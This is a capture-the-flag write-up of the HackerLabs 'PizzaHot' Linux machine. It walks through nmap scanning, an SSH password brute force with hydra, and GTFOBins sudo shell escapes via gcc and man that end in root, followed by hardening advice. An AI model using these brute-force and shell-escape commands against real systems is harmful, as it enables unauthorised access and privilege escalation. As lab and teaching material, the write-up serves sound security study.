





# PizzaHot - Write-up

| Field | Details |
| :--- | :--- |
| **Platform** | HackerLabs |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | `192.168.86.102` |
| **Date** | March 5, 2024 |

---

## 1. Executive Summary

The exploitation of the **PizzaHot** machine began with a network discovery and port scanning phase, revealing SSH and HTTP services. A review of the web application's source code exposed a hidden username. Using this username, a password brute-force attack via SSH was successful. Initial access was followed by lateral movement to another user by abusing `sudo` permissions on the `gcc` binary. Finally, full root privileges were obtained by exploiting `sudo` permissions on the `man` binary through a known GTFOBins technique.

---

## 2. Reconnaissance & Enumeration

### 2.1 Network Scanning

First, the target IP was identified using `arp-scan` to map the local network.

```bash
sudo arp-scan --localnet -g
whichSystem.py 192.168.86.102
```

The system responded with a TTL indicative of a **Linux** machine. Subsequently, an exhaustive port scan was performed.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.86.102 -oG allPorts
extractPorts allPorts
nmap -p22,80 -sCV 192.168.86.102 -oN target
```

**Key Findings:**

| Port | Service | Version |
|------|---------|---------|
| 22 | SSH | OpenSSH 9.6p1 |
| 80 | HTTP | Apache httpd 2.4.59 |

### 2.2 Service Enumeration

Accessing the web service on port 80 revealed a standard landing page. However, a manual inspection of the HTML source code (line 85) revealed a potential username: `pizzapiña`.



---

## 3. Exploitation (Foothold)

### 3.1 Vulnerability Analysis

With a valid username identified, a brute-force attack was launched against the SSH service using the `rockyou.txt` wordlist.

```bash
hydra -l pizzapiña -P /usr/share/wordlists/rockyou.txt ssh://192.168.86.102
```



### 3.2 Initial Access

The credentials `pizzapiña:steven` allowed for a successful SSH login.

```bash
ssh pizzapiña@192.168.86.102
```



---

## 4. Privilege Escalation

### 4.1 Lateral Movement (pizzapiña -> pizzasinpiña)

Upon initial enumeration of the environment, it was noted that the `user.txt` flag was not present in the current home directory. Checking `sudo -l` revealed that the user could run `gcc` as another user named `pizzasinpiña`.

```bash
pizzapiña@pizzahot:~$ sudo -l
[sudo] contraseña para pizzapiña: 
Matching Defaults entries for pizzapiña on pizzahot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pizzapiña may run the following commands on pizzahot:
    (pizzasinpiña) /usr/bin/gcc
```

By leveraging **GTFOBins**, the `gcc` binary was used to spawn a shell as `pizzasinpiña`:

```bash
sudo -u pizzasinpiña gcc -wrapper /bin/sh,-s x
script /dev/null -c bash # Stabilizing the shell
```



### 4.2 Root Privilege Escalation

Once acting as `pizzasinpiña`, a second `sudo -l` check was performed to identify further escalation vectors.

```bash
pizzasinpiña@pizzahot:/home/pizzapiña$ sudo -l
Matching Defaults entries for pizzasinpiña on pizzahot:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pizzasinpiña may run the following commands on pizzahot:
    (root) NOPASSWD: /usr/bin/man
```

The `man` binary can be abused to execute commands when the output is piped to a pager (like `less`). By executing `sudo man man`, entering `!/bin/bash` within the pager grants a root shell.

```bash
sudo man man
!/bin/bash
```



---

## 5. Flags & Evidence

pizzapiña


pizzasinpiña


root


**[IMAGE: Screenshot of both user and root flags]**

---

## 6. Remediation & Hardening

- **Information Disclosure:** Remove sensitive information such as usernames or comments from the production web source code.
- **Strong Password Policy:** Implement a robust password policy to prevent successful brute-force attacks on SSH.
- **Principle of Least Privilege:** Audit the `/etc/sudoers` file. Avoid allowing users to run binaries like `gcc` or `man` with `sudo` permissions, as they can easily be used for shell escapes.
- **SSH Hardening:** Disable password-based authentication for SSH in favor of SSH keys and consider implementing Fail2Ban to mitigate brute-force attempts.

---

Authored by: **Brutotes**  
[⬅️ Back to Home](../../README.md)